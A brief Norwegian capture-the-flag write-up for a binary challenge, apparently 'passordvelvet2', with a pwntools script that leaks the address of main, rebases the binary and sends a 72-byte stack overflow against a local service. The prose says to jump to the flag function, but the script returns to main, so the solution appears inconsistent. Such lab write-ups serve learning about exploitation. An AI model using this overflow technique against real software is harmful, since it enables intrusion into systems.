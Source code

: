 # Taskname
> Author: Mx. Task

## Challenge

## Solution

Hiver inn i Ghidra, og ser at `main` er lik som forrige oppgave. Men ser vi nærmere på `print_flag` funksjonen, så får vi ikke noe flag der, men vi får en peker til `main`.
Checksec er permissions de samme som forrige, for oss er mangel på `Stack Canary` det som gjelder. Så rebase binary og hopp til flag funksjonen.

```python
#!/usr/bin/env python3
from pwn import *
io = connect('localhost', 4000)
payload = b'sikkerhets\0'
payload += b'A'*(48-len(payload))
payload += p64(0x646167656e)
io.sendlineafter(b'passordet: ', payload)

io.recvuntil(b'ta dette: ')
main_addr = int(io.recvline(keepends=False), 16)

elf = ELF('./passordvelvet2', checksec=False)
elf.address = main_addr - elf.symbols['main']
io.sendlineafter(b'passordet: ', b'A'*72 + p64(elf.symbols['main']))
print(io.recvall(timeout=1))
```

